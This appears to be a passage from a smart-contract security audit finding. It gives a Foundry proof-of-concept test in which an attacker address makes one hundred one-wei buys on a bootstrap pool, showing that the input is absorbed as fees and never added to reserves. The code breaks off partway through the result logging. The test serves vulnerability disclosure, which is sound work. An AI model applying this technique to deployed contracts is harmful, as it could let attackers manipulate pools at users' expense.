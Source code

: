 ## Proof of Concept
Add this inside `BootstrapPoolTest.sol` to see the following output when run with `forge test --mt test_bootstrap_fee_bug -vv`. In the PoC inToken is the `currencyToken` and outToken is the `agentToken`. We can see how the entire invested inToken amount is taken up as fees and never gets added to the reserves:
```js
    function test_bootstrap_fee_bug() public {
        // Set up the test environment
        setUpFraxtal(12_918_968);
        address attacker = makeAddr("Attacker");
        
        // Configure factory with minimal fee (1 bip)
        factory = new AgentFactory(currencyToken, 0);
        factory.setAgentBytecode(type(Agent).creationCode);
        factory.setGovenerBytecode(type(TokenGovernor).creationCode);
        factory.setLiquidityManagerBytecode(type(LiquidityManager).creationCode);
        factory.setTargetCCYLiquidity(100000e18);
        factory.setInitialPrice(0.99e18); 
        factory.setTradingFee(1); // 1 bip fee (minimal possible fee)

        // Create agent and bootstrap pool
        agent = factory.createAgent("VulnTest", "VULN", "https://example.com", 0);
        token = agent.token();
        LiquidityManager manager = LiquidityManager(factory.agentManager(address(agent)));
        bootstrapPool = manager.bootstrapPool();

        // Deal some currency tokens to attacker
        deal(address(currencyToken), attacker, 100); 

        // Log initial state
        console.log("Initial Setup:");
        console.log("Bootstrap Pool Address:", address(bootstrapPool));
        (uint256 reserveCurrency, uint256 reserveAgent) = bootstrapPool.getReserves();
        emit log_named_decimal_uint("Initial Currency Reserve:", reserveCurrency, 18);
        emit log_named_decimal_uint("Initial Agent Reserve:", reserveAgent, 18);
        emit log_named_decimal_uint("Phantom Amount:", bootstrapPool.phantomAmount(), 18);
        console.log("Initial Fee Earned:", bootstrapPool.currencyTokenFeeEarned());

        // Start attack simulation
        vm.startPrank(attacker);
        currencyToken.approve(address(bootstrapPool), type(uint256).max);
        
        uint256 totalCurrencySpent = 0;
        uint256 totalAgentTokensReceived = 0;

        // Perform multiple 1 wei buys
        for(uint256 i = 0; i < 100; i++) {
            uint256 amountIn = 1; // 1 wei of currency token
            uint256 balanceBefore = token.balanceOf(attacker);
            
            // Execute buy
            bootstrapPool.buy(amountIn);
            
            // Calculate tokens received
            uint256 tokensReceived = token.balanceOf(attacker) - balanceBefore;
            totalCurrencySpent += amountIn;
            totalAgentTokensReceived += tokensReceived;
        }
        vm.stopPrank();

        // Log final results
        console.log("\nAttack Results:");
        console.log("Total Currency Spent (wei):", totalCurrencySpent);
```